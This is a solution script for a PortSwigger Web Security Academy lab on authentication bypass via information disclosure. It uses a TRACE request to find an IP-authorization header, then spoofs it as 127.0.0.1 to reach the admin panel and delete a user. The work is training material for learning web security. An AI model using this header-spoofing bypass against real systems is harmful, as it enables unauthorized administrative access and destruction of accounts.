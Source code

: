 # Lab: Authentication bypass via information disclosure

Link to lab: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = 'https://0ae90081043828a9c1b80ebc00f800d7.web-security-academy.net/'

response =  requests.request('TRACE', url)

# request with trace method to get all the name of headers we are received -> X-Custom-IP-Authorization:


headers = {
    'X-Custom-Ip-Authorization': '127.0.0.1',
}

response = requests.get(
    'https://0ae90081043828a9c1b80ebc00f800d7.web-security-academy.net/admin/delete?username=carlos',
    headers=headers,
    verify=False,
)
print(response.text)
```